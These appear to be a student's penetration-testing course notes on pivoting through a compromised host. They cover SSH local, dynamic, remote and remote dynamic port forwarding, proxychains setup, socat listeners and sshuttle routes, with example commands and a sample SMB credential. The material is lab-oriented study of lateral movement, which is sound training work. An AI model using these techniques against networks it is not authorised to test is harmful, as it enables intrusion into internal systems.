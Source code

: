 `openssh version must be greater than 7.6 for dynamic port forwarding`

when scanning through tunnel make sure to use `-n` within nmaps flags

When getting a foothold always ensure we have a tty using either python bin bash spawning or otherwise.

### Local Port Forwarding

SSH tunneling gives us end to end communication with a remote host that may only be accessible through another host we have compromised.

SSH will allow us to send almost any kind of data over the tunnel which will allow us to use our kali machine locally to interact with the remote target.

Once we have a foothold on the pivot machine we need to determine the next hop and setup our tunnel.

```
ssh -N -L 0.0.0.0:<port>:<target_ip>:<target_port> user@pivot_machine
```

above you can see we are starting a listening port on the foothold machine for our kali machine with 0.0.0.0, then we are selecting which ip address and port we want to forward to, and then connecting to the machine that is responsible for passing the the information to our target.

0.0.0.0 - is our foothold (ssh client)
pivot machine (ssh server) - the target directly connected to our foothold
target_ip (target forwarded to)- machine only reachable through our pivot machine.

We can confirm this connection set up correctly by getting another foothold on another port for the foothold machine and check connections with `ss -ntplu`

Once we know it is setup we can run any tools that will allow use to configure port and have them run against the target machine

`smbclient -p 4455 -L //192.168.234.63/ -U hr_admin --password=Welcome1234` - example of enumerating smb 2 hops away

`everything we do must be against the original foothold host and against the listening port - everything wil be forwarded to the specific port we selected for forwarding.`


### Dynamic Port Forwarding

Setting up dynamic port forwarding is similar to local port forwarding, instead we don't specify a forwarding interface, we specify its dynamic, and only specify the listening port

```
ssh -N -D 0.0.0.0:<listen_port> user@ssh_server
```

`The limitiation is that we have to ensure the software we use is SOCKS compliant as it uses a socks proxy to achieve this flexible functionality - and some software is not compatiable with socks format` - we fix this issue by using proxychains

Proxychains can be configure with `/etc/proxychains4.conf`

replace the proxy definition at the bottom of the file with `socks5 <foothold_ip <listen_port>`

then we can utilize proxychains to communicate over our dynamic port forward
```
proxychains smbclient -L //ip/ -U <user> --password=<password>
```

`this wont work with everything but it will work in a lot of cases`


By default, Proxychains is configured with very high time-out values. This can make port scanning really slow. Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.


### Remote Port Forwarding

before we can conduct remote port forward, we need to ensure we have a strong ssh key set up

and we need to start our ssh server:
```
sudo systemctl start ssh
```

then once we have a remote shell on the target machine:
```
ssh -N -R 127.0.0.1:<port>:<target_ip_forward>:<port> kali@kali_ip
```

127.0.0.1 is the ssh server - the kali loopback
target_ip - the target were trying to forward our packets to
kali_ip is our ip

we can then ssh to the kali listening ip and port
```
ssh user@127.0.0.1 -p port
```

### Remote Dynamic Port Forwarding

Remote dynamic port forwarding has only been available since October 2017's OpenSSH 7.6.[2](https://portal.offsec.com/courses/pen-200-44065/learning/port-redirection-and-ssh-tunneling-48849/ssh-tunneling-48917/ssh-remote-dynamic-port-forwarding-48854#fn-local_id_715-2) Despite this, only the OpenSSH _client_ needs to be version 7.6 or above to use it - the server version doesn't matter.

```
ssh -N -R <port> kali@kali_ip
```

as you can see for this technique we only need to supply the listening socket.

we will then need to update our /etc/proxychains4.conf
```
socks5 127.0.0.1 <port>
```

when can then run any command against any interface remote with `proxychains`

`in this case kali is still the server and the target is the client - we need to get a foothold and run our ssh command on the client (target)`

`sudo ss -ntplu` - confirm connection

### Using sshuttle

requires root privs on ssh client and python3 on the ssh server

we set up a port forward listener on our target and forward it to a destination with a ssh port running.

```
socat TCP-LISTEN:2222,fork TCP:10.4.50.22
```

on our kali machine we can then use sshuttle to create routes to subnets we have discovered on the target:

```
sshuttle -r user@target:2222 10.4.50.0/24 172.16.50.0/24
```

This is theory will allow use to interact with these subnets from our kali machine. This works kind of like a vpn.




